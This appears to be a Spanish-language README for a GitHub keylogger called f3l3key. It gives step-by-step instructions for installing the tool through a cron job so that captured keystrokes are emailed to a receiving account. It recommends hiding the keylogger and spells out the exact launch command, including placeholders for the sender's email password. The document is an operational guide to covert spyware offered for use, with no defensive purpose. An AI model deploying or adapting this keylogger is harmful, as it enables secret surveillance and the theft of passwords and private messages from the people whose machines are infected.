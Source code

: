 # f3l3key
##############################################################################################<br><br>
PASOS A SEGUIR<br><br>
1- Sitúate en una terminal de Ubuntu y aplica la siguiente comanda: git clone https://github.com/f3l3p1n0/f3l3key.git<br>
2- Abre el archivo tester.sh y cambia: la ruta, correo emisor, la clave del emisor y el correo receptor. Para seguir con mayor detalle estos pasos
diríjete a este artículo: https://f3l3p1n0.github.io/posts/f3l3key/post.html<br>
3- Una vez editado el archivo, guárdalo y dale permisos de ejecución a los 3 archivos.<br>
4- Ejecuta el archivo installer.sh<br>
5- Cuando se detenga en el apartado de crontab, presiona 1 y la tecla enter.<br>
6- Guarda el archivo y habrás creada la nueva tarea Cron.<br>
7- Listo, ahora debes esperar los minutos correspondientes para recibir en tu cuenta receptora los correos.<br><br>

pd: es recomendable que el keylogger se ubique en una posición oculta. Ten en cuenta que debes especificar la ruta donde se encuentra el keylogger, de lo contrario no funcionará. De igual manera, debes respetar la siguiente linea con los mismos espacios y estructura:

python3 /home/user/Descargas/f3l3key.py emisor@gmail.com pega_la_clave_aqui receptor@hotmail.com &

